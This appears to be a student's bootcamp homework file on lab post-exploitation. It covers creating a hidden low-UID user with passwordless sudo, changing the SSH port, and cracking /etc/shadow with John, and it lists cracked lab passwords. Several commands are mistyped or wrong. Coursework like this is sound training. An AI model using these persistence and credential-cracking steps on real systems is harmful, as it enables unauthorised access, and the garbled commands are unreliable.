 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd

2. Give your secret user a password: 
    - `sudo passwd sysd Igotitnow 

3. Give your secret user a system UID < 1000:
    - #usermod -u 900 sysd

4. Give your secret user the same GID:
   - #usermod -g 900 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo usermod -aG sudo sysd
sudo ALL=(ALL:ALL) NOPASSWD: ALL
6. Test that `sudo` access works without your password:
sudo -lU sysd
    ```bash
    Your bash commands here
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:sudo nano /etc/ssh/sshd_config

    ```bash
    Your bash commands here
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:ssh sysadmi@192.168.6.105 -p 22
    - 

2. Exit the `root` account:
    - pkill -u sysadmin

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudu su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:[]([[[url](url)](url)](url))

    - sudo john /etc/shadow
    computer:stallman
    freedom:babbage
    trustno1:mitnik
    dragon:lovelace
    lakers:turing
    passw0rd:sysadmin
    Goodluck!:student

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

